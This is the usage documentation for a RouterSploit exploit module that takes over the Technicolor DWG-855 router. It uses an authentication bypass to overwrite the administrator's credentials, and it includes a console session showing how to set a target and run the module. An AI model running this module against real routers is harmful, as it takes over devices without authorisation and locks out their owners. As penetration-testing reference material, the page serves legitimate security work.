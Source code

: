 # Technicolor DWG-855 Auth Bypass

## Description
Module exploits Technicolor DWG-855 Authentication Bypass vulnerability which allows changing administrator's password.

NOTE: This module will errase previous credentials, this is NOT stealthy.

## Authors
* JPaulMora <https://JPaulMora.GitHub.io> # vulnerability discovery, initial routersploit module
* 0BuRner # routersploit module

## References
* [Bug discovered some time before Aug 2016, this is the first reference to it!
   This exploit works with any POST parameter, but changing admin creds gives you access to everything else.](Bug discovered some time before Aug 2016, this is the first reference to it!
   This exploit works with any POST parameter, but changing admin creds gives you access to everything else.)

## Vulnerable devices
* Technicolor DWG-855

## Usage
```
rsf > use exploits/technicolor/dwg855_authbypass
rsf (Technicolor DWG-855 Auth Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target     192.168.0.1          Target address e.g. http://192.168.0.1
   port       80                   Target Port


Module options:

   Name      Current settings     Description
   ----      ----------------     -----------
   nuser     ruser                New user (overwrites existing user)
   npass     rpass                New password (overwrites existing password)


rsf (Technicolor DWG-855 Auth Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Technicolor DWG-855 Auth Bypass) > run
[*] Running module...
```
